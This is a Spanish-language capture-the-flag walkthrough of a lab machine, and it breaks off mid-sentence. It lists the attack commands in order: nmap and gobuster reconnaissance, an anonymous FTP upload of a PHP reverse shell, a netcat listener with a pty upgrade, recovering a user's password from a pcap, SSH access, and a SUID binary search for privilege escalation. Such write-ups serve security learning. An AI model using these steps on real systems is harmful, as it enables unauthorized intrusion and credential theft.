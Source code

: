 
Lo primero que haremos será hacer un nmap con el siguiente comando: sudo nmap -A -sV -sC -T4 -p- --defeat-rst-ratelimit 10.10.92.79


Ahora intentamos hacer fuzzing gobuster dir -u http://10.10.92.79/ -w /usr/share/wordlists/dirb/big.txt y miramos y hay un /files si accedemos pordemos ver que hay un servidor ftp


Intentamos conectarnos con anonymous con el siguiente comando: ftp anonymous@10.10.92.79

IMG01

Una vez dentro haremos un put e intentaremos meter una reverse shell: put /home/kali/Desktop/php-reverse-shell.php ./php-reverse-shell.php


Y ahora la ejecutamos y ponemos en escucha nuestro kali linux: nc -lvnp 1234  y ya hemos entrado, ahora vamos a upgradear la shell con: python -c 'import pty; pty.spawn("/bin/bash")'

IMG02

Y ya tenemos la primera flag.

Ahora hacemos un ls y vemos un directorio sospechoso, dentro vemos un pcap, nos lo pasamos a nuestra maquina con el comando: cp /incidents/suspicious.pcapng /var/www/html/files/ftp


Y si lo abrimos con el wireshark veremos que hay varias peticiones al puerto 4444, le damos a follow --> TCP Stream y podemos ver algunos comandos donde encontramos la contraseña de lennie.

IMG03

Y ahora intentamos entrar por ssh con el siguiente comando: ssh lennie@10.10.92.79 y ya estamos dentro.
IMG04

Si hacemos un cat user.txt vemos la segunda flag.

Ahora haremos el siguiente comando para ver los binarios: find / -perm -u=s -type f 2>/dev/null

IMG04


Y ahora nos vamos a gtfo bins y 

